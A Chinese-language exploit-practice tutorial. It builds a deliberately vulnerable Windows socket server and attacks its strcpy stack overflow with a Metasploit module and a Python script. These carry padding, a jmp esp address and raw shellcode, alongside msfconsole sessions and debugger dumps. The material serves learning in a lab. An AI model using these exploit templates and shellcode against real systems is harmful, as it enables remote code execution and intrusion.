# A stack overflow bug for exploit practice

**Author：wnagzihxain
Mail：tudouboom@163.com**

```
#include<iostream.h>
#include<winsock2.h>
#pragma comment(lib, "ws2_32.lib")

void msg_display(char * buf)
{
	char msg[200];
	strcpy(msg, buf);// overflow here, copy 0x200 to 200
	cout << "********************" << endl;
	cout << "received : " << endl;
	cout << msg << endl;
}

void main()
{
	int sock, msgsock, lenth, receive_len;
	struct sockaddr_in sock_server, sock_client;
	char buf[0x200]; //noticed it is 0x200
	
	WSADATA wsa;
	WSAStartup(MAKEWORD(1,1), &wsa);
	if((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0)
	{
		cout << sock << "socket creating error!" << endl;
		exit(1);
	}
	sock_server.sin_family = AF_INET;
	sock_server.sin_port = htons(7777);
	sock_server.sin_addr.s_addr = htonl(INADDR_ANY);
	if(bind(sock, (struct sockaddr*)&sock_server, sizeof(sock_server)))
	{
		cout << "binging stream socket error!" << endl;
	}
	cout << "**************************************" << endl;
	cout << "     exploit target server 1.0	   " << endl;
	cout << "**************************************" << endl;
	listen(sock, 4);
	lenth = sizeof(struct sockaddr);
	do {
		msgsock = accept(sock, (struct sockaddr*)&sock_client, (int*)&lenth);
		if(msgsock == -1)
		{
			cout << "accept error!" << endl;
			break;
		}
		else 
			do
			{
				memset(buf, 0, sizeof(buf));
				if((receive_len = recv(msgsock, buf, sizeof(buf), 0)) < 0)
				{
					cout << "reading stream message erro!" << endl;
					receive_len = 0; 
				}
				msg_display(buf);//trigged the overflow
			} while(receive_len);
			closesocket(msgsock);
	} while(1);
	WSACleanup();
}
```

载入OD，在如图三处下断点



然后重新载入运行起来，运行起来后就不用管这里了

我使用的是kali作为攻击者

这是exploit，保存为rb文件exploits/failwest/test.rb
```
require 'msf/core' 
 
class Metasploit3 < Msf::Exploit::Remote 
include Msf::Exploit::Remote::Tcp 
	 
	def initialize(info = {}) 
	    super(update_info(info, 
		'Name'		=> 'failwest_test', 
		'Platform'	=> 'win', 
		'Author'         => [ 'MC' ], 
		'License'       => MSF_LICENSE, 
		'Targets'	=> [ 
					['Windows 2000',  {'Ret' => 0x77F8948B } ],  
					['Windows XP SP3',{'Ret' => 0x77E1F2C8 } ] 
				   ], 
		'Payload'       => { 
					'Space'    => 300, 
					'BadChars' => "\x00", 
				    } 
		)) 
	end #end of initialize 
 
	def exploit 
		connect 
		attack_buf = 'a'*204 + [target['Ret']].pack('V') + payload.encoded 
		sock.put(attack_buf)	 
		handler 
		disconnect 
	end  #end of exploit def 
end #end of class def 
```

打开终端，搜一下自己写的exploit
```
msf > search failwest
 
Matching Modules
================
 
   Name                   Disclosure Date  Rank    Description
   ----                   ---------------  ----    -----------
   exploit/failwest/test                   normal  failwest_test
```

使用
```
msf > use exploit/failwest/test
```

显示选项
```
msf exploit(test) > show options
 
Module options (exploit/failwest/test):
 
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT                   yes       The target port
```

设置被攻击者IP
```
msf exploit(test) > set rhost 192.168.1.103
rhost => 192.168.1.103
```

设置端口
```
msf exploit(test) > set rport 7777
rport => 7777
```

显示可用payload
```
msf exploit(test) > show payloads

Compatible Payloads
===================

   Name                                             Disclosure Date  Rank    Description
   ----                                             ---------------  ----    -----------
   generic/custom                                                    normal  Custom Payload
   generic/debug_trap                                                normal  Generic x86 Debug Trap
   generic/shell_bind_tcp                                            normal  Generic Command Shell, Bind TCP Inline
   generic/shell_reverse_tcp                                         normal  Generic Command Shell, Reverse TCP Inline
   generic/tight_loop                                                normal  Generic x86 Tight Loop
   windows/dllinject/bind_ipv6_tcp                                   normal  Reflective DLL Injection, Bind IPv6 TCP Stager (Windows x86)
   windows/dllinject/bind_nonx_tcp                                   normal  Reflective DLL Injection, Bind TCP Stager (No NX or Win7)
   windows/dllinject/bind_tcp                                        normal  Reflective DLL Injection, Bind TCP Stager (Windows x86)
   windows/dllinject/reverse_ipv6_tcp                                normal  Reflective DLL Injection, Reverse TCP Stager (IPv6)
   windows/dllinject/reverse_nonx_tcp                                normal  Reflective DLL Injection, Reverse TCP Stager (No NX or Win7)
   windows/dllinject/reverse_ord_tcp                                 normal  Reflective DLL Injection, Reverse Ordinal TCP Stager (No NX or Win7)
   windows/dllinject/reverse_tcp                                     normal  Reflective DLL Injection, Reverse TCP Stager
   windows/dllinject/reverse_tcp_allports                            normal  Reflective DLL Injection, Reverse All-Port TCP Stager
   windows/dns_txt_query_exec                                        normal  DNS TXT Record Payload Download and Execution
   windows/exec                                                      normal  Windows Execute Command
   windows/loadlibrary                                               normal  Windows LoadLibrary Path
   windows/messagebox                                                normal  Windows MessageBox
   windows/meterpreter/bind_ipv6_tcp                                 normal  Windows Meterpreter (Reflective Injection), Bind IPv6 TCP Stager (Windows x86)
   windows/meterpreter/bind_nonx_tcp                                 normal  Windows Meterpreter (Reflective Injection), Bind TCP Stager (No NX or Win7)
   windows/meterpreter/bind_tcp                                      normal  Windows Meterpreter (Reflective Injection), Bind TCP Stager (Windows x86)
   windows/meterpreter/reverse_ipv6_tcp                              normal  Windows Meterpreter (Reflective Injection), Reverse TCP Stager (IPv6)
   windows/meterpreter/reverse_nonx_tcp                              normal  Windows Meterpreter (Reflective Injection), Reverse TCP Stager (No NX or Win7)
   windows/meterpreter/reverse_ord_tcp                               normal  Windows Meterpreter (Reflective Injection), Reverse Ordinal TCP Stager (No NX or Win7)
   windows/meterpreter/reverse_tcp                                   normal  Windows Meterpreter (Reflective Injection), Reverse TCP Stager
   windows/meterpreter/reverse_tcp_allports                          normal  Windows Meterpreter (Reflective Injection), Reverse All-Port TCP Stager
   windows/metsvc_bind_tcp                                           normal  Windows Meterpreter Service, Bind TCP
   windows/metsvc_reverse_tcp                                        normal  Windows Meterpreter Service, Reverse TCP Inline
   windows/patchupdllinject/bind_ipv6_tcp                            normal  Windows Inject DLL, Bind IPv6 TCP Stager (Windows x86)
   windows/patchupdllinject/bind_nonx_tcp                            normal  Windows Inject DLL, Bind TCP Stager (No NX or Win7)
   windows/patchupdllinject/bind_tcp                                 normal  Windows Inject DLL, Bind TCP Stager (Windows x86)
   windows/patchupdllinject/reverse_ipv6_tcp                         normal  Windows Inject DLL, Reverse TCP Stager (IPv6)
   windows/patchupdllinject/reverse_nonx_tcp                         normal  Windows Inject DLL, Reverse TCP Stager (No NX or Win7)
   windows/patchupdllinject/reverse_ord_tcp                          normal  Windows Inject DLL, Reverse Ordinal TCP Stager (No NX or Win7)
   windows/patchupdllinject/reverse_tcp                              normal  Windows Inject DLL, Reverse TCP Stager
   windows/patchupdllinject/reverse_tcp_allports                     normal  Windows Inject DLL, Reverse All-Port TCP Stager
   windows/patchupmeterpreter/bind_ipv6_tcp                          normal  Windows Meterpreter (skape/jt Injection), Bind IPv6 TCP Stager (Windows x86)
   windows/patchupmeterpreter/bind_nonx_tcp                          normal  Windows Meterpreter (skape/jt Injection), Bind TCP Stager (No NX or Win7)
   windows/patchupmeterpreter/bind_tcp                               normal  Windows Meterpreter (skape/jt Injection), Bind TCP Stager (Windows x86)
   windows/patchupmeterpreter/reverse_ipv6_tcp                       normal  Windows Meterpreter (skape/jt Injection), Reverse TCP Stager (IPv6)
   windows/patchupmeterpreter/reverse_nonx_tcp                       normal  Windows Meterpreter (skape/jt Injection), Reverse TCP Stager (No NX or Win7)
   windows/patchupmeterpreter/reverse_ord_tcp                        normal  Windows Meterpreter (skape/jt Injection), Reverse Ordinal TCP Stager (No NX or Win7)
   windows/patchupmeterpreter/reverse_tcp                            normal  Windows Meterpreter (skape/jt Injection), Reverse TCP Stager
   windows/patchupmeterpreter/reverse_tcp_allports                   normal  Windows Meterpreter (skape/jt Injection), Reverse All-Port TCP Stager
   windows/shell/bind_ipv6_tcp                                       normal  Windows Command Shell, Bind IPv6 TCP Stager (Windows x86)
   windows/shell/bind_nonx_tcp                                       normal  Windows Command Shell, Bind TCP Stager (No NX or Win7)
   windows/shell/bind_tcp                                            normal  Windows Command Shell, Bind TCP Stager (Windows x86)
   windows/shell/reverse_ipv6_tcp                                    normal  Windows Command Shell, Reverse TCP Stager (IPv6)
   windows/shell/reverse_nonx_tcp                                    normal  Windows Command Shell, Reverse TCP Stager (No NX or Win7)
   windows/shell/reverse_ord_tcp                                     normal  Windows Command Shell, Reverse Ordinal TCP Stager (No NX or Win7)
   windows/shell/reverse_tcp                                         normal  Windows Command Shell, Reverse TCP Stager
   windows/shell/reverse_tcp_allports                                normal  Windows Command Shell, Reverse All-Port TCP Stager
   windows/speak_pwned                                               normal  Windows Speech API - Say "You Got Pwned!"
   windows/upexec/bind_ipv6_tcp                                      normal  Windows Upload/Execute, Bind IPv6 TCP Stager (Windows x86)
   windows/upexec/bind_nonx_tcp                                      normal  Windows Upload/Execute, Bind TCP Stager (No NX or Win7)
   windows/upexec/bind_tcp                                           normal  Windows Upload/Execute, Bind TCP Stager (Windows x86)
   windows/upexec/reverse_ipv6_tcp                                   normal  Windows Upload/Execute, Reverse TCP Stager (IPv6)
   windows/upexec/reverse_nonx_tcp                                   normal  Windows Upload/Execute, Reverse TCP Stager (No NX or Win7)
   windows/upexec/reverse_ord_tcp                                    normal  Windows Upload/Execute, Reverse Ordinal TCP Stager (No NX or Win7)
   windows/upexec/reverse_tcp                                        normal  Windows Upload/Execute, Reverse TCP Stager
   windows/upexec/reverse_tcp_allports                               normal  Windows Upload/Execute, Reverse All-Port TCP Stager
   windows/vncinject/bind_ipv6_tcp                                   normal  VNC Server (Reflective Injection), Bind IPv6 TCP Stager (Windows x86)
   windows/vncinject/bind_nonx_tcp                                   normal  VNC Server (Reflective Injection), Bind TCP Stager (No NX or Win7)
   windows/vncinject/bind_tcp                                        normal  VNC Server (Reflective Injection), Bind TCP Stager (Windows x86)
   windows/vncinject/reverse_ipv6_tcp                                normal  VNC Server (Reflective Injection), Reverse TCP Stager (IPv6)
   windows/vncinject/reverse_nonx_tcp                                normal  VNC Server (Reflective Injection), Reverse TCP Stager (No NX or Win7)
   windows/vncinject/reverse_ord_tcp                                 normal  VNC Server (Reflective Injection), Reverse Ordinal TCP Stager (No NX or Win7)
   windows/vncinject/reverse_tcp                                     normal  VNC Server (Reflective Injection), Reverse TCP Stager
   windows/vncinject/reverse_tcp_allports                            normal  VNC Server (Reflective Injection), Reverse All-Port TCP Stager
```

设置payload
```
msf exploit(test) > set payload windows/exec
payload => windows/exec
```

设置cmd的命令为弹出计算器
```
msf exploit(test) > set cmd calc
cmd => calc
```

设置seh的退出方式
```
msf exploit(test) > set exitfunc seh
exitfunc => seh
```

利用
```
msf exploit(test) > exploit
```

然后回到xp，可以看到已经收到信息并且断在了msg_display()函数入口

F9走一个，断在了`strcpy()`下面，也就是完成了溢出



```
0012FB60   CCCCCCCC  烫烫
0012FB64   CCCCCCCC  烫烫
0012FB68  /0012FF80  €.
0012FB6C  |0040131D  @.  返回到 target_s.0040131D 来自 target_s.0040101E
0012FB70  |0012FD50  P?.   ASCII "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
0012FB74  |0012B74C  L?.
```

看到返回地址已经被覆盖成了`jmp esp`

```
0012FB60   61616161  aaaa
0012FB64   61616161  aaaa
0012FB68   61616161  aaaa
0012FB6C   77E1F2C8  闰醱    advapi32.77E1F2C8
0012FB70   4291FD27  '龖B
0012FB74   9792489B  汬挆
```

继续F9

可以看到完成了信息输出，并且要返回，可以看到栈的布局



F8单步走一下

观察寄存器的值，特别是EIP



EIP寄存器的值是我们覆盖的`jmp esp`
```
EAX 0042E060 offset target_s.couth_threshold_length
ECX 0042E068 target_s.0042E068
EDX 0042E060 offset target_s.couth_threshold_length
EBX 7FFDF000
ESP 0012FB70
EBP 61616161
ESI 0012FB74
EDI 0012FF80
EIP 77E1F2C8 advapi32.77E1F2C8
```

F8单步走



然后继续单步走，走下去，F4到这



然后F8单步



可以看到解码的代码，所以，按照上一篇文章讲的，在cld下断点然后F9就行了



最后可以看到计算器弹出来了



这是用metasploit来加载poc，现在咱们使用python实现溢出
```
#!usr/bin/python
# -*- coding:utf-8 -*-

import socket
import struct
 
HOST = '192.168.1.103'
PORT = 7777
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
shellcode = ("\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
		"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
		"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
		"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
		"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
		"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
		"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
		"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
		"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
		"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
		"\x53\xFF\x57\xFC\x53\xFF\x57\xF8")
 
jmpesp = struct.pack("<L", 0x77E1F2C8)
payload = 'a' * 204 + jmpesp + shellcode
s.sendall(payload)
s.close()
```



运行，看到溢出的`jmp esp`在返回地址处

继续F8，来到shellcode的领空

